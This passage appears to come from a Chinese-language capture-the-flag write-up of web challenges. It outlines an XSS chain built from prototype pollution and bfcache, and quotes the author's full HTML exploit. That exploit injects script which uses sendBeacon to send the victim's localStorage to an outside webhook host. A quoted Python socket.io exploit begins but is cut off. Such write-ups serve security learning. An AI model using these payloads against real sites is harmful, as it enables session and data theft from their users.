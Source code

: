 1. 先造訪最後需要的 URL
2. 跳轉到 view 頁面，利用 prototype pollution 讓 fetch 送出有 header 的請求
3. 回到上一頁，此時因為 bfcache，會沿用剛剛 fetch 的 response，就是有 header 的版本
4. XSS

作者的 exploit：

``` html
<body>
  <script>
    // const BASE_URL = "http://localhost:3000";
    const BASE_URL = "https://iframe-note.be.ax";

    const HOOK_URL = "https://webhook.site/xxxxx";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const main = async () => {
      const dataUrl = `data:text/javascript,navigator.sendBeacon('${HOOK_URL}',JSON.stringify(localStorage))`;

      const win = open(`${BASE_URL}/${dataUrl}/iframe/view`);
      await sleep(1000);

      win.location = `${BASE_URL}/view?id=view&__%70roto__[headers][SCRIPT_NAME]=${dataUrl}/iframe&__%70roto__[baseURL]=/${dataUrl}/`;
      await sleep(1000);

      win.location = `${location.origin}/back.html?n=2`;
    };
    main();
  </script>
</body>
```

``` html
<script>
  const n = parseInt(new URLSearchParams(location.search).get("n"));
  history.go(-n);
</script>
```

### corchat x - 1 solve

Author: larry

跟 socket.io 有關的題目，重點看起來是三個：

1. 可以送出 disconnect 事件但是沒有 disconnect
2. sokcet.io 的 JSONP 可以拿來 bypass CSP
3. 用 performance API 列出曾經載入過的資源

底下附上 Discord 中 EhhThing 貼的 exploit：

``` py
import socketio
import requests
import time
import json

base_url = 'https://corchat-x-a6e1f8c45d3ca520.be.ax'

def create_sid():
    session = requests.Session()
    login = session.post(f'{base_url}/', data = {}, allow_redirects=False)
    assert login.status_code == 302, login.status_code

    res = session.get(f'{base_url}/socket.io/', params = {
```